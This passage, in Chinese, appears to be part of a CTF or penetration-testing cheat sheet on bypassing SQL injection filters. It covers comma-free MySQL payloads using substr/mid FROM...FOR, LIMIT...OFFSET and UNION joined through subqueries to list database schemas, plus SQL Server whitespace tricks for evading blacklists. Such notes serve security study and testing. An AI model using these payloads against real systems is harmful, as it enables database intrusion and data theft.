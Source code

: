 ###### 过滤了逗号

* substr,mid等，使用from

```txt
mid(user() from 1 for 1)
或
substr(user() from 1 for 1)
最后结合ascii()取左边第一位，逐位猜解，此外还可以使用hex()？
```

* limit，使用offset

```sql
select * from tab_name limit 1 offset 0
```

* union处的逗号

```sql
通过join拼接

爆显示位
payload：
union select * from (select 1)a join (select 2)b join (select 3)c limit 1 offset 1;
union select * from (select 1)a join (select{x schema_name} from information_schema.schemata limit 1 offset 1)b join (select 3)c limit 1 offset 1;

```

![sql-join](./sql-join.jpg)

###### 浮点精度特性

```txt
php中:
1.0000000000001 != 1
1.0000000000000001
在MySQL中:
1.0000000000001 == 1
1.0000000000000001 == 1
```

##### sqlserver数据库

###### 常见过滤位置

* 第一：select from后的位置

1. 空白符号:

```txt
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 
需要做urlencode，sqlserver中的表示空白字符比较多，靠黑名单去阻断一般不合适。
```
